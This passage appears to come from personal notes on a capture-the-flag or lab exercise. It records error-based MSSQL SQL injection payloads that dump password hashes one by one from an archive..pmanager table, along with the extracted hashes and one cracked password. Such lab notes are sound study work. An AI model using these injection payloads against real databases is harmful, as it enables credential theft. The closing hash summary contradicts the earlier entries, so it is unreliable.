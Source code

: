 
![[21. 1st hash.png]]

```shell
#2nd hash 
5b413fe170836079622f4131fe6efa2d

', CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 psw FROM (SELECT top 2 psw FROM archive..pmanager ORDER BY psw ASC) sq ORDER BY psw DESC)+CHAR(58)+CHAR(58))))--
```

![[22. 2nd hash.png]]

```shell
# 3rd hash
7de6b6f0afadd89c3ed558da43930181

', CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 psw FROM (SELECT top 3 psw FROM archive..pmanager ORDER BY psw ASC) sq ORDER BY psw DESC)+CHAR(58)+CHAR(58))))--
```

![[23. 3rd hash.png]]

```shell

#4th hash
cb2d5be3c78be06d47b697468ad3b33b
sup3rs3cr3t

', CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 psw FROM (SELECT top 4 psw FROM archive..pmanager ORDER BY psw ASC) sq ORDER BY psw DESC)+CHAR(58)+CHAR(58))))--
```

![[24. 4th hash.png]]


```shell
# no more hashes - going to crackstation.
', CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 psw FROM (SELECT top 5 psw FROM archive..pmanager ORDER BY psw ASC) sq ORDER BY psw DESC)+CHAR(58)+CHAR(58))))--
```

```shell
#hashes

#1st
N/A


#2nd
7de6b6f0afadd89c3ed558da43930181
N/A

#3rd
7de6b6f0afadd89c3ed558da43930181
N/A





#4th
cb2d5be3c78be06d47b697468ad3b33b
sup3rs3cr3t

Found a password, but dont know which user it goes to.

```
